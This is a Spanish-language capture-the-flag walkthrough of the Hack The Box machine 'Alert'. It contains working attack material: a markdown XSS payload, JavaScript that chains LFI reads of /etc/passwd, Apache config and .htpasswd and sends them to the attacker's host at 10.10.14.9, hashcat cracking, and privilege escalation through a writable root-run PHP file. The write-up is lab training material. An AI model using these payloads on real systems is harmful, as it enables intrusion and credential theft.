




## Alert

---


###### Técnicas demostradas:

- XSS - Injection Via Markdown
- Discovering LFI accessible from XSS
- Cracking Hashes
- Exploiting Web Service Executed by Root
- Creating a Malicious php File in Writable Path (Privilege Escalation)

---

En primer lugar realizamos un escaneo de puertos para recopilar cuáles están abiertos.

```bash
nmap -p- open -sS --min-rate 5000 -vvv -Pn 10.10.11.44 -oG allPorts
```



Con la herramienta `ExtractPorts` definida en nuestro sistema copiamos los puertos abiertos a la clipboard

```bash
extractPorts allports
```


Realizamos un escaneo más exhaustivo de los puertos para conocer el servicio y la versión que está corriendo en ellos.

```bash
nmap -p22,80 -sCV 10.10.11.44 -oN targeted
```


Con la herramienta `WhatWeb` terminamos de recopilar información que nos pueda ser de ayuda.


Una vez añadido el dominio a nuestro archivo `/etc/hosts` realizamos una inspección de la web para ver a qué nos enfrentamos.


Probamos realizar un ataque de inyección LaTeX pero no tenemos éxito.


Si revisamos el apartado "About Us" vemos que nos indican que el administrador del sitio revisa los mensajes del apartado "Contact" esto es importante.


Vamos a realizar un descubrimiento de directorios con la herramienta `gobuster` en busca de archivos con extensión `.php`

```bash
gobuster dir -u http://alert.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php
```


Revisamos que tenemos en `/messages.php`


Tras no ver nada, vamos a realizar un escaneo de subdominios con `wffuz`

```bash
wfuzz -c --hc 301 -t 20 /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.alert.htb" alert.htb
```


Encontramos un subdominio `statistics.alert.htb` lo añadimos a nuestro archivo `/etc/hosts`


Tras revisarlo vemos que tenemos un panel de autenticación.


En este punto vamos a revisar si la web es vulnerable a un ataque XSS para markdown, con ayuda de la web [XSS in Markdown - HackTricks](https://book.hacktricks.wiki/en/pentesting-web/xss-cross-site-scripting/xss-in-markdown.html) preparamos nuestro payload.

```markdown
<!-- XSS with regular tags -->
<script>
  alert(1)
</script>

```

Una vez subido el archivo al panel, vemos que sí.


Sabiendo esto, vamos a adaptar nuestro payload para que la web cargue un recurso en nuestra máquina que vamos a llamar `pwned.js` Esto lo haremos cargando en el archivo markdown una llamada al fichero, como sabemos que el administrador está revisando los mensajes que le enviamos a través del panel de "Contact Us" cargaremos el enlace que nos proporciona el visualizador de la web para pasárselo al administrador, por detrás estaremos a la escucha en nuestra máquina para recoger la petición.

```markdown
<script src="http://10.10.14.9:3000/pwned.js"></script>
```

```bash
nc -nlvp 3000
```


Esta es la URL que nos devuelve el visualizador de la web. Vamos a pasársela por mensaje al administrador del sitio.

```url
http://alert.htb/visualizer.php?link_share=680f57d0974c63.17343056.md
```


A su vez vamos a ponernos a la escucha en nuestra máquina para recoger la petición.

```bash
python3 -m http.server 3000
```

Este será el contenido del fichero `pwned.js`, la idea es traernos el contenido en `php` del panel `messages.php`

```javascript
var req = new XMLHttpRequest();
req.open("GET", "http://alert.htb/messages.php", false);
req.send();
var req2 = new XMLHttpRequest();
req2.open(
  "GET",
  "http://10.10.14.9:3000/?content=" + btoa(req.responseText),
  true
);
req2.send();
```

Una vez tenemos la respuesta debemos descifrarla en `base64`


```bash
echo "[...]" | base64 -d
```


Tras acceder no vemos nada.


En este punto y sabiendo que este método funciona, vamos a tratar de modificar nuestro payload para realizar un `LFI` y leer el fichero `/etc/passwd`

```javascript
var req = new XMLHttpRequest();
req.open(
  "GET",
  "http://alert.htb/messages.php?file=../../../../../etc/passwd",
  false
);
req.send();
var req2 = new XMLHttpRequest();
req2.open(
  "GET",
  "http://10.10.14.9:3000/?content=" + btoa(req.responseText),
  true
);
req2.send();
```

```bash
python3 -m http.server 3000
```


```bash
echo "[...]" | base64 -d
```

Tras decodificar la respuesta vemos que tenemos dos usuarios.


Anteriormente, descubrimos `statistics.alert.htb` , que solicita autenticación. Intentaremos leer el archivo de configuración de `Apache`.

```javascript
var req = new XMLHttpRequest();
req.open(
  "GET",
  "http://alert.htb/messages.php?file=../../../../../etc/apache2/sites-available/000-default.conf",
  false
);
req.send();
var req2 = new XMLHttpRequest();
req2.open(
  "GET",
  "http://10.10.14.9:3000/?content=" + btoa(req.responseText),
  true
);
req2.send();
```

```bash
python3 -m http.server 3000
```


```bash
echo "PHByZT48VmlydHVhbEhvc3QgKjo4MD4KICAgIFNlcnZlck5hbWUgYWxlcnQuaHRiCgogICAgRG9jdW1lbnRSb290IC92YXIvd3d3L2FsZXJ0Lmh0YgoKICAgIDxEaXJlY3RvcnkgL3Zhci93d3cvYWxlcnQuaHRiPgogICAgICAgIE9wdGlvbnMgRm9sbG93U3ltTGlua3MgTXVsdGlWaWV3cwogICAgICAgIEFsbG93T3ZlcnJpZGUgQWxsCiAgICA8L0RpcmVjdG9yeT4KCiAgICBSZXdyaXRlRW5naW5lIE9uCiAgICBSZXdyaXRlQ29uZCAle0hUVFBfSE9TVH0gIV5hbGVydFwuaHRiJAogICAgUmV3cml0ZUNvbmQgJXtIVFRQX0hPU1R9ICFeJAogICAgUmV3cml0ZVJ1bGUgXi8/KC4qKSQgaHR0cDovL2FsZXJ0Lmh0Yi8kMSBbUj0zMDEsTF0KCiAgICBFcnJvckxvZyAke0FQQUNIRV9MT0dfRElSfS9lcnJvci5sb2cKICAgIEN1c3RvbUxvZyAke0FQQUNIRV9MT0dfRElSfS9hY2Nlc3MubG9nIGNvbWJpbmVkCjwvVmlydHVhbEhvc3Q+Cgo8VmlydHVhbEhvc3QgKjo4MD4KICAgIFNlcnZlck5hbWUgc3RhdGlzdGljcy5hbGVydC5odGIKCiAgICBEb2N1bWVudFJvb3QgL3Zhci93d3cvc3RhdGlzdGljcy5hbGVydC5odGIKCiAgICA8RGlyZWN0b3J5IC92YXIvd3d3L3N0YXRpc3RpY3MuYWxlcnQuaHRiPgogICAgICAgIE9wdGlvbnMgRm9sbG93U3ltTGlua3MgTXVsdGlWaWV3cwogICAgICAgIEFsbG93T3ZlcnJpZGUgQWxsCiAgICA8L0RpcmVjdG9yeT4KCiAgICA8RGlyZWN0b3J5IC92YXIvd3d3L3N0YXRpc3RpY3MuYWxlcnQuaHRiPgogICAgICAgIE9wdGlvbnMgSW5kZXhlcyBGb2xsb3dTeW1MaW5rcyBNdWx0aVZpZXdzCiAgICAgICAgQWxsb3dPdmVycmlkZSBBbGwKICAgICAgICBBdXRoVHlwZSBCYXNpYwogICAgICAgIEF1dGhOYW1lICJSZXN0cmljdGVkIEFyZWEiCiAgICAgICAgQXV0aFVzZXJGaWxlIC92YXIvd3d3L3N0YXRpc3RpY3MuYWxlcnQuaHRiLy5odHBhc3N3ZAogICAgICAgIFJlcXVpcmUgdmFsaWQtdXNlcgogICAgPC9EaXJlY3Rvcnk+CgogICAgRXJyb3JMb2cgJHtBUEFDSEVfTE9HX0RJUn0vZXJyb3IubG9nCiAgICBDdXN0b21Mb2cgJHtBUEFDSEVfTE9HX0RJUn0vYWNjZXNzLmxvZyBjb21iaW5lZAo8L1ZpcnR1YWxIb3N0PgoKPC9wcmU+Cg==" | base64 -d
```

Realizamos la decodificación. Y observamos que disponemos del fichero `.htpasswd`


Modificaremos nuestro payload para tratar de leerlo.

```javascript
var req = new XMLHttpRequest();
req.open(
  "GET",
  "http://alert.htb/messages.php?file=../../../../../var/www/statistics.alert.htb/.htpasswd",
  false
);
req.send();
var req2 = new XMLHttpRequest();
req2.open(
  "GET",
  "http://10.10.14.9:3000/?content=" + btoa(req.responseText),
  true
);
req2.send();
```

```bash
python3 -m http.server 3000
```


Tras decodificarlo obtenemos un hash.

```bash
echo "[...]" | base64 -d
```


`$apr1$` revela que el hash utilizado es MD5, el cual crackearemos utilizando `Hashcat`. Guadamos el hash obtenido en un fichero `data`.

```bash
hashcat -a 0 -m 1600 data /usr/share/wordlists/rockyou.txt
```


Después de realizar el proceso obtenemos la contraseña del usuario. Probamos a ingresar en el panel que encontramos anteriormente. Observamos un dashboard, pero por el momento no podemos hacer nada más aquí.


En este punto vamos a probar el acceso vía `ssh` con las credenciales que tenemos.

```bash
ssh usuario@10.10.11.44
```


Encontramos la primera flag en el directorio personal del usuario.


#### Escalada de privilegios

En primer lugar vamos a revisar los servicios que están corriendo.

```bash
netstat -tulnp
```


Nos conectamos de nuevo a la máquina haciendo un `port-forwarding` del puerto 8080

```bash
ssh albert@alert.htb -L 8080:127.0.0.1:8080
```

En este punto vamos a descargar la herramienta `pspy` https://github.com/DominicBreuker/pspy?tab=readme-ov-file para revisar todo. Montaremos un servidor http con Python y descargaremos la herramienta en la máquina víctima.

```bash
python3 -m http.server 4000
```

```bash
wget http://10.10.14.9:4000/pspy64
```



Cambiamos los permisos para poder ejecutarlo.

Observamos que se está ejecutando `monitor.php` con el `UID=0`


Vamos a revisar su contenido.

```bash
cat /opt/website-monitor/monitor.php
```

Observamos que el fichero hace una llamada a otro `configuration.php` este puede ser interesante, vamos a revisarlo.


```bash
cd /opt/website-monitor/
ls -la
```



```bash
cd /config
ls -la
```

Observamos que el fichero pertenece al grupo `management` por lo que podemos modificarlo para añadir `SUID` a la `bash`



```bash
nano configuration.php
```


Una vez hecho podremos escalar a `root`

```bash
/bin/bash -p
```


